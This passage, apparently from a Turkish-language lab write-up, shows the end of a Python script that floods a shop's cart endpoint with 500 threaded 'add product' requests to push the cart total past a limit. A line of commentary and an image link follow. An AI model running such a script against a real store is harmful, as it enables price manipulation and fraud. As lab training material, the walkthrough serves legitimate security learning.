 ```python
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-User": "?1",
    "Te": "trailers",
}

data_template = "productId=6&quantity=99&redir=CART"

def send_request(i):
    response = requests.post(url, headers=headers, data=data_template)
    print(f"Request {i}: Status Code - {response.status_code}")

# 10 thread ile çalıştırma
with concurrent.futures.ThreadPoolExecutor(max_workers=10) as executor:
    executor.map(send_request, range(1, 500))

```

Burada eklemeye çalıştığımız ürün fiyatı düşük olduğu için çok fazla eklesek bile dengeleyeceğimiz fiyata ulaşmak biraz daha zor olmakta. 

![Untitled](0x14-e3d5610b147c47c69793fa5e6472953f/Untitled-21.png)
